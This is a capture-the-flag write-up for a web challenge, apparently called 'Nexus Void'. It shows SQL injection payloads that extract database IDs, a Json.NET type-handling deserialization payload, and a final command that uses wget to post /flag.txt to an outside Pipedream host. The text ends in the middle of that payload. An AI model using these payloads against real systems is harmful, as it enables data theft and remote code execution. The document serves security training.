 ## Exfiltrate ID
After logging in, click on the "Add to Favorites" button at least once. This action is necessary because the `wishlist` in the database will not be created until an item is added for the first time.
- Click one of the `Add to favourites` again and use `Burp Suite`  to capture the request and send it to the `repeater` Module.
- Inject the following payload into `name` field to confirm the number of columns in the `Products` table is 7 since `order by 8` gives `500 Internal Server Error`.
	```
	' order by [Guessed_Column_Number]--
	```
![8]({{ '/' | relative_url }}public/screenshots/Nexus Void/8.png){:style="display:block; margin-left:auto; margin-right:auto"}
![9]({{ '/' | relative_url }}public/screenshots/Nexus Void/9.png){:style="display:block; margin-left:auto; margin-right:auto"}
- Now we know the exact number of columns and table name, we can inject the following payload into `name` field to extract `ID`. The exfiltrated `ID` will be shown when we request for the `wishlist` because, essentially, we added a non-existent product to the `wishlist` with the SQL injection.
	```
	' union select 1, (select group_concat(ID_username) from (select (ID||':'||username) as ID_username from Wishlist)), 3, 4, 5, 6, 7--
	```
![10]({{ '/' | relative_url }}public/screenshots/Nexus Void/10.png){:style="display:block; margin-left:auto; margin-right:auto"}
- The exfiltrated `ID` will be shown when we request for the `wishlist` because, essentially, we added a non-existent product to the `wishlist` with the SQL injection. From the `wishlist`, we can see our `ID` is simply 1.![11]({{ '/' | relative_url }}public/screenshots/Nexus Void/11.png){:style="display:block; margin-left:auto; margin-right:auto"}

## Payload Generation & Delivery
Now that we have the `ID`, we can proceed to update the `wishlist.data`. However, what should our payload look like? In other words, what is the expected output when the `StatusCheckHelper` object is serialized into JSON? Add the following code to `Program.cs` before `app.Run()`.
```C#
using Newtonsoft.Json;
StatusCheckHelper statusCheckHelper = new StatusCheckHelper();
statusCheckHelper.command = "whoami";
string serializedStatusCheckHelper = JsonConvert.SerializeObject(statusCheckHelper, new JsonSerializerSettings
{
    TypeNameHandling = TypeNameHandling.All
});

Console.WriteLine(serializedStatusCheckHelper);
```
![12]({{ '/' | relative_url }}public/screenshots/Nexus Void/12.png){:style="display:block; margin-left:auto; margin-right:auto"}
Build the docker image from the provided `Dockerfile` with `docker build -t nexus_void:latest .` and run interactive with `docker run --rm -it -p 80:80/tcp nexus_void:latest`. From the output, we can see that JSON serialized `StatusCheckHelper` object is of the following form:
```
{"$type":"Nexus_Void.Helpers.StatusCheckHelper, Nexus_Void","output":[OUTPUT],"command":"[COMMAND]"}
```
![13]({{ '/' | relative_url }}public/screenshots/Nexus Void/13.png){:style="display:block; margin-left:auto; margin-right:auto"}
With knowledge of the `ID` and payload structure, we can proceed to deliver the payload.
- Since I don't own a server with public IP, I am going to use [Pipedream](https://pipedream.com/) with a workflow that accepts HTTP request to exfiltrate the flag. The actual payload will execute a command that sends an HTTP request to my Pipedream domain, including the flag within the request body.
	```
	{"$type":"Nexus_Void.Helpers.StatusCheckHelper, Nexus_Void","output":null,"command":"wget https://eo6ww37wx07qvmv.m.pipedream.net --post-file /flag.txt"}